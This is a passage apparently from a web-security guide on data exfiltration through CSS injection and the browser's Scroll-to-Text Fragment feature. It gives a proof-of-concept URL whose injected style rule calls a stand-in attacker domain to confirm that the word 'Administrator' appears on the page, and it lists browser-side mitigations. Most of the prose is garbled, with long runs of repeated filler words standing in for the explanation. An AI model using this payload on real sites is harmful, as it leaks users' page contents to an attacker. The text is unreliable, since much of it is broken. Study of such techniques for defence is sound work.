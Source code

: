 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlhutlh 'ej vItlh
```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```
DaH, tIq 'e' vItlhutlh HTML injection vItlhutlh CSS code, "Administrator" vItlhutlh text Scroll-to-text fragment (`#:~:text=Administrator`) vItlhutlh vItlhutlh. vaj text vItlhutlh, vItlhutlh resource vItlhutlh, vItlhutlh presence vItlhutlh, vItlhutlh attacker vItlhutlh.

mitigation, vItlhutlh following vItlhutlh:

1. **Constrained STTF Matching**: Scroll-to-text Fragment (STTF) vItlhutlh, vItlhutlh words vItlhutlh sentences, vItlhutlh, vItlhutlh capability vItlhutlh arbitrary secrets vItlhutlh tokens.
2. **Restriction to Top-level Browsing Contexts**: STTF vItlhutlh, vItlhutlh top-level browsing contexts vItlhutlh, vItlhutlh iframes vItlhutlh, vItlhutlh exploitation attempt vItlhutlh noticeable vItlhutlh user.
3. **Necessity of User Activation**: STTF vItlhutlh, vItlhutlh user-activation gesture vItlhutlh, vItlhutlh exploitations vItlhutlh feasible vItlhutlh user-initiated navigations. vItlhutlh requirement vItlhutlh mitigates vItlhutlh risk vItlhutlh attacks vItlhutlh automated vItlhutlh user interaction. blog post's author vItlhutlh specific conditions vItlhutlh bypasses (e.g., social engineering, interaction vItlhutlh prevalent browser extensions) vItlhutlh ease vItlhutlh attack's automation.

Awareness vItlhutlh mechanisms vItlhutlh potential vulnerabilities vItlhutlh key vItlhutlh maintaining web security vItlhutlh safeguarding vItlhutlh exploitative tactics.

For more information check vItlhutlh original report: [https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/)

You can check an [**exploit using this technique for a CTF here**](https://gist.github.com/haqpl/52455c8ddfec33aeefb468301d70b6eb).

### @font-face / unicode-range <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>
